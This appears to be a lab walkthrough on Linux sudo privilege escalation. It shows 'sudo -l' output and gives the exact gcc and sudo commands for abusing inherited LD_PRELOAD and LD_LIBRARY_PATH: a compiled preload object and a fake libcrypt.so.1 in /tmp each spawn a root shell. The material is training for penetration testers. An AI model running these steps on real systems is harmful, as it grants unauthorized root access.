

## Shell Escape Sequences
```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

## Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

`sudo -l`

`LD_PRELOAD` and `LD_LIBRARY_PATH` are both inherited from the user's environment. `LD_PRELOAD` loads a shared object before any others when a program is run. `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /`home/user/tools/sudo/preload.c`:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the `LD_PRELOAD` environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at `/home/user/tools/sudo/library_path.c`:

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`

A root shell should spawn. Exit out of the shell. Try renaming `/tmp/libcrypt.so.1` to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the `library_path.c` code could be changed to make it work.